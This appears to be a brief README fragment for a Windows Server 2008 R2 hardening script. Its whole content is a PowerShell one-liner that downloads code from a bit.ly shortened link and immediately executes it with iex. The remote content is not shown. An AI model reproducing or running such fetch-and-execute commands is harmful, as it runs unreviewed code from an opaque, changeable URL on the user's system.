 # 2008_R2_Hardening
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2QnDanB')"
